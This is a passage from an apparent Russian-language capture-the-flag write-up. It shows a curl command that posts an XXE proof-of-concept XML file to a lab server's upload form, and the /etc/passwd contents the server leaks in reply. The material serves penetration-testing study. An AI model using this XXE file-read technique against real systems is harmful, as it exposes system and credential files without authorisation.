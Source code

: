 И скормим его форме:
```text
root@kali:~# curl -X POST -F "file=@xxe-poc.xml; filename=poc.xml" http://10.10.10.91:5000/upload
 PROCESSED BLOGPOST:
  Author: 3V1LH4CK3R
 Subject: 3V1LH4CK3R's subject
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false

 URL for later reference: /uploads/poc.xml
 File path: /home/roosa/deploy/src
```
